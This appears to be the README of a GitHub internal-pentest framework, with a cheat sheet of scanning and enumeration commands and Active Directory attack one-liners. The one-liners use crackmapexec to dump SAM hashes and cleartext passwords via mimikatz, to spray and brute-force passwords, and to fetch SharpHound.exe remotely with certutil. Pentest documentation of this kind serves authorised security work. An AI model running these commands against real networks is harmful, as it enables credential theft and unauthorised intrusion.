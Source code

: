 # haise
## Internal Network Pentest Framework
![](https://github.com/syedumerqadri/haise/blob/master/image.jpg)


## Internal Penetration Testing:

An Internal Penetration Test differs from a vulnerability assessment in that it actually exploits the vulnerabilities to determine what information is actually exposed. An Internal Penetration Test mimics the actions of an actual attacker exploiting weaknesses in network security without the usual dangers. This test examines internal IT systems for any weakness that could be used to disrupt the confidentiality, availability or integrity of the network

## Methodology:

        •  Internal Network Scanning
                  traceroute www.google.com
                  nmap 192.168.1.*
                  Reverse IP Lookup (https://mxtoolbox.com/ReverseLookup.aspx)
                  Ip Info: https://ipinfo.io/
        
        •  Port Scanning
                  nmap -p- -T4 -iL sub.txt (Fast Scan)
                  nmap -A 192.168.1.1 (Little Intense and slow)
                  nmap -sV -sC -Pn -p 1-65535 -T5 --min-rate 1000 --max-retries 5 192.168.1.1
                  nmap -sS -sC -sV -v -p 445 -iL subnet-files.txt
                  nmap -sS -sC -sV -v -p 21 -iL subnet-files.txt

                  Web Ports: 80, 8080, 443

                  
        •  Fingerprinting
                  nmap -sV --version-intensity 5 192.168.1.1
                  nc 192.168.1.1 80
                  curl -sI http://192.168.1.1

        •  Vulnerbility Scanning
                  nmap --script vuln 192.168.1.1 -d
                  nikto
                  dirsearch
                  nessus    (https://localhost:8834)
        
        •  IDS Penetration Testing
                  lbd 45.34.23.12
                  wafw00f http://192.168.1.1  
    
        •  SMB Enumeration
                Discover Host:
                cme smb <subnet>    (cme => crackmapexecs)

                Null Session:
                cme smb 192.168.24.0/24 -u '' -p ''
                smbmap –host-file smb-hosts.txt

                SMB Map:
                smbmap -H 192.168.1.1
                smbmap.py –host-file smb-hosts.txt u ‘jsmith’ -p ‘Spring!2020’ -q -R –depth 2 –exclude ADMIN$ IPC$ -A ‘passw’

        •  Exploit Research
                  https://www.exploit-db.com/
                  https://www.rapid7.com/db/
                  https://cxsecurity.com/search/       

        •  Manual Vulnerability Testing and Verification
        •  Password Strength Testing
                  rate limiting
                  sparta(tool)
                  burp (brute force)

        •  Infrastructure Mapping
                  Maltego

                  DNS Server
                  Firewall
                  Cloud
                  Employ Device
                  Logging Server
                  Directory Service
                  Admin Workstation
                                                               
        •  Administrator Privileges Escalation
        •  Database Security Controls Testing    
        •  Third-Party/Vendor Security Configuration Testing

## AD Pentesting:
“Active Directory” Called as “AD” is a directory service that Microsoft developed for the Windows domain network. 
Using it you can to control domain computers and services that are running on every node of your domain.

Active Directory (Pen Test ) is most commonly used in the Enterprise Infrastructure to manage 1000’s of computers in the organization with a single point of control as “Domain Controller”
Performing Penetration Testing of Active Directory is more interesting and are mainly targeted by many APT Groups with a lot of different techniques

    Check SMB Service in use:
    cat hosts.txt | xargs -I{} sh -c 'crackmapexec smb {}'
    
    Enumerate shares:
    crackmapexec 192.168.0.12 -u username -p 'password'  --shares

    Whos logged into the machine:
    crackmapexec 192.168.0.12 -u username -p 'password' --users

    Dump local sam hashes
    python crackmapexec 192.168.0.12 -u username -p 'password' --sam

    Dump clear text password:
    crackmapexec 192.168.0.12 -u username -p 'password' -m modules/credentials/mimikatz.py

    Downloading:
    cme smb 10.128.111.203 -u 'xampp' -p '@sdF1234' -d HQCMSDBQ -x "certutil.exe -urlcache -split -f http://172.17.17.214/SharpHound.exe pentest/zz.exe"

    Check account lockout policy:
    crackmapexec smb 192.168.1.101 -u syedali -p 'test'  --pass-pol

    Password spray:
    python crackmapexec.py 192.168.0.0/24 -u username -p 'password'
                
    Bruteforce:
    crackmapexec smb 192.168.1.102 -u username.txt -p gooo

    Connecting:
    smbclient -L 192.168.1.112 -U "Creative Green"

## Tool for Automation:
Internal network could possibly contain large amount of IPs,For automation girst i generate some
of the one liner commands and then automate them with python.

## Usage:
1. git clone https://github.com/syedumerqadri/haise
2. cd haise
3. put all provided IPs on hosts.txt
4. python haise.py

You will got the prompt shell

## Shell:
		[exit]
		[clear]
		[hosts]	list all hosts
		[alive]	check if hosts are alive
		[ports]	port scan of all hosts
		[dir]	Directory Enumuration
	        [headers]	Grab Web Headers
		[scan]	Grab Headers, Port Scan and Directory Enumuration for all hosts 
		[ids] Detect Intrusion Detection System
		[smb] Check for SMB Services







